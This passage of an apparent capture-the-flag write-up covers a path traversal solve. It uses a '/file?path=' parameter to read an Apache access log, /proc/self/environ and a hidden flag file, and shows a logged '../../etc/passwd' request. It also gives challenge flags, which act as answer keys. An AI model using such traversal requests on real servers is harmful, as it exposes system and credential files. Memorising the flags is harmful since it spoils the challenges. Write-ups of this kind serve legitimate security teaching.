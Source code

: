 after tryping /home/webadmin:/bin/bash we got a secret password - `s3cr3t_p@ssw0rd';\n`

so we tried the `/file?path=/var/log/apache2/access.log`

```
"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
"192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
"10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
"# Interesting environment variables might be found at /proc/self/environ\n"
"203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
```
It gave the next location  `"# Interesting environment variables might be found at /proc/self/environ\n"`
and then we went to `/file?path=/proc/self/environ` and got

```
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
"HOSTNAME=web-server-01\n"
"USER=www-data\n"
"HOME=/var/www\n"
"SECRET_LOCATION=/home/ctf/.secret\n"
"PWD=/var/www/html\n"
"LANG=C.UTF-8\n"
"SHLVL=1\n"
```

later we went to `/home/ctf/.secret/flag.txt` adn got the text file

**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

---

## Challenge 10: Rotting in the Deep

### Solve
- Not solved by me 

**Flag:** `citadel{br0_r34lly_unr0tt3d_m3_b4ck_t0_l1f3}`

---

## Challenge 11: Coco Conjecture

### Description
The door to the next floor is guarded by a figure who calls herself "the dragon CEO". She does not speak of mercy or choice. only of order and efficiency.

To enter the next chamber, you must complete the task presented by her. Complete it exactly as instructed, achieving operational efficiency by her standards, and the path forward will open.

### Solve
Made a python file to communicate to terminal ... 
